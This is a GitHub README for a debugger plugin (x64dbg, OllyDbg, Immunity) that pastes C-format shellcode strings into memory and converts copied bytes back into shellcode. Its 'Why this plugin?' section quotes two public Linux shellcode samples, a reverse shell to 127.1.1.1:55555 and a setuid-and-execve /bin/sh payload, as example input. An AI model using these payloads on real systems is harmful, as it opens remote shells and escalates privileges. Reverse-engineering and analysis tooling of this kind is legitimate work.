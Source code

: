 # xshellex
**WARNING**: the ugliest code in the world

With xshellex you can paste any kind of c-shellcode strings in x64dbg, ollydbg & immunity debugger. Also you can convert the "binary-copied-clipboard" to c-shellcode string.

Please, consider make a donation: https://github.com/sponsors/therealdreg

This plugin uses shellex, my handy "C-shellcode to hex converter" tool for paste & execute shellcodes in gdb, windbg, radare2, ollydbg, 010 editor etc.
* https://github.com/David-Reguera-Garcia-Dreg/shellex

## Install

Just download https://github.com/David-Reguera-Garcia-Dreg/xshellex/releases/download/r0.1b/xshellex01b.zip

Extract the .zip

### x64dbg

Copy the release folder in the x64dbg folder.

Now check if you have installed:
* x64dbg\release\tcc
* x64dbg\release\shellex.exe
* x64dbg\release\x32\plugins\xshellex.dp32
* x64dbg\release\x64\plugins\xshellex.dp64

### ollydbg

Copy the ollydbg folder content to ollydbg path (I use C:\odbg110)

Now check if you have installed:
* C:\odbg110\tcc
* C:\odbg110\shellex.exe
* C:\odbg110\shellex.dll

### immunity debugger

Copy the immunity folder content to C:\Program Files (x86)\Immunity Inc\Immunity Debugger

Now check if you have installed:
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\tcc
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.exe
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.dll

## Use

Go to Plugins --> xshellex --> launch

Paste your c-shellcode string

Press enter

Press Control+Z

Copy the output to clipboard

![Alt text](launch.png)

Use x64dbg Binary Paste (right click in disasm)

![Alt text](binary_paste.png)

**WARNING**: In x64dbg you can use Paste ignore size BUT in ollydbg & immunity debugger you must select first a long area:

![Alt text](immunity.png)

![Alt text](ollydbg_paste.png)

## Converting binary-copied-clipboard to c-shellcode string

Select area

Right click --> Binary ---> Copy

![Alt text](binary_copy.png)

Go to Plugins --> xshellex --> clipboard to ....

![Alt text](clipboard_to_shellcode.png)

## Why this plugin?

In real world yummyPaste plugin ( https://github.com/0ffffffffh/yummyPaste ) cant works fine, because you have a lot of garbage to filter, just check shellcodes like

http://shell-storm.org/shellcode/files/shellcode-833.php
```
unsigned char code[] = \

"\x68"
"\x7f\x01\x01\x01"  // <- IP Number "127.1.1.1"
"\x5e\x66\x68"
"\xd9\x03"          // <- Port Number "55555"
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce";
```

https://www.exploit-db.com/exploits/13359
```
char sc[] = /* 7 + 23 = 30 bytes */
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";
```

## Compilation

Visual Studio 2013
* https://my.visualstudio.com/Downloads?q=visual%20studio%202013&wt.mc_id=o~msft~vscom~older-downloads
* https://go.microsoft.com/fwlink/?LinkId=532495&clcid=0x409

**WARNING**: To convert ollydbg plugin to immunity debugger plugin just use auxtools\PluginFix

